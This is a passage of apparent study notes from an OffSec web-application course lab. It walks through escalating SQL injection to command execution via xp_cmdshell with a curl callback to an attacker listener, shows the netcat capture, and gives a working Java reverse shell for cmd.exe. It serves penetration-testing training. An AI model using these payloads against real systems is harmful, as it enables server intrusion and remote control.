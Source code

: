 ```sql
EXEC+xp_cmdshell+'curl+http://192.168.45.222:8000/itworked'; 
```

We'll need to encode the spaces before we send the payload with Repeater.

![[Pasted image 20241108192142.png]]

Unlike our previous payloads, the application does not respond to our request. However, if we check our listener, we did receive the curl request.

```bash
┌──(root💀gobots)-[08Nov2024 21:41:54]-[/home/kali/SUT/OSWA]
└─# nc -lvnp 8000    
listening on [any] 8000 ...
connect to [192.168.45.222] from (UNKNOWN) [192.168.169.131] 50037
GET /itworked HTTP/1.1
Host: 192.168.45.222:8000
User-Agent: curl/7.55.1
Accept: */*

```
Excellent. We have confirmed remote code execution on the server through the database. Our next step will be obtaining a full shell on the server.

#### 16.4.3. Obtaining a Shell

Now that we're able to execute commands on the server, let's work on getting a reverse shell. Windows Server usually won't have Netcat installed. While Kali Linux includes a Windows binary version of Netcat, Windows Defender will easily identify and remove it if we try to upload it to the server.[1](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/remote-code-execution-37068/exploit-sql-injection-for-rce-37059#fn-local_id_375-1)While there are ways to modify binaries to bypass antivirus detection, those techniques go beyond the scope of this course.
Instead, let's focus on what is available on the server. Since the application is Java-based, we should be able to run a Java reverse shell.

***In real-world application assessments, we may need to customize a reverse shell or some other piece of code to complete an attack. However, we recognize that WEB-200 is not a programming course. While we will walk through the code and explain it, we will also provide a copy of the final shell at the end of this section.***

We can find several examples of Java reverse shells online. Many examples are written for Linux and therefore target _bash_ or _sh_ to run commands. Since we're targeting Windows, we'll need to run _cmd.exe_ in our shell. We'll use one from _Payload All The Things_[2](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/remote-code-execution-37068/obtaining-a-shell-37058#fn-local_id_375-2) as the starting point of our Windows targeting Java reverse shell. However, this shell is incomplete, so we'll need to write some code to finish it.

Let's start with the basic shell and review the code.

```java
String host="127.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
